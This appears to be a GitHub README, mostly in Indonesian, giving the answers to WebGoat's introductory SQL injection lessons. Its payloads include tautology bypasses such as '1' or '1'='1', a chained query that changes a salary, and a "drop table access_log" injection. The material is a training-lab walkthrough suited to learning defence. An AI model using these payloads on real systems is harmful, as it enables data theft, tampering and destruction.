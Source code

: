 # SQL Injection (intro)

Pelajaran ini menjelaskan apa itu Structured Query Language (SQL) dan bagaimana hal itu dapat dimanipulasi untuk melakukan tugas-tugas yang bukan merupakan maksud asli pengembang.

## What is SQL?
```sh
select department from employees where first_name='Bob' and last_name='Franco'
```

## Data Manipulation Language (DML) 
```sh
update employees set department = 'Sales' where first_name='Tobi' and last_name='Barnett'
```

## Data Definition Language (DDL)
```sh
alter table employees add phone varchar(20)
```

## Data Control Language (DCL)
```sh
grant all on grant_rights to unauthorized_user
```

## Try It! String SQL injection
- **Query:** "SELECT * FROM user_data WHERE first_name = 'John' AND last_name = '" + lastName + "'";
- Opsi 1: '
- Opsi 2: or
- Opsi 3: '1' = '1

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20intro/sql%20intro%201.JPG)

## Try It! Numeric SQL injection
- **Query:** "SELECT * FROM user_data WHERE login_count = " + Login_Count + " AND userid = "  + User_ID;
- Login_Count: 1
- User_Id: 1 or 1=1

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20intro/sql%20intro%202.JPG)

## Compromising confidentiality with String SQL injection
- **Query:** "SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "'";
- Employee Name:
```sh
Smith
```
- Authentication TAN: 
```sh
1' or '1'='1
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20intro/sql%20intro%203.JPG)

## Compromising Integrity with Query chaining
- Employee Name:
```sh
Smith'; update employees set salary = 100000 where last_name='Smith' --
```
- Authentication TAN: 
```sh
3SL99A
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20intro/sql%20intro%204.JPG)

## Compromising Availability
- Action contains:
```sh
'; drop table access_log --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20intro/sql%20intro%205.JPG)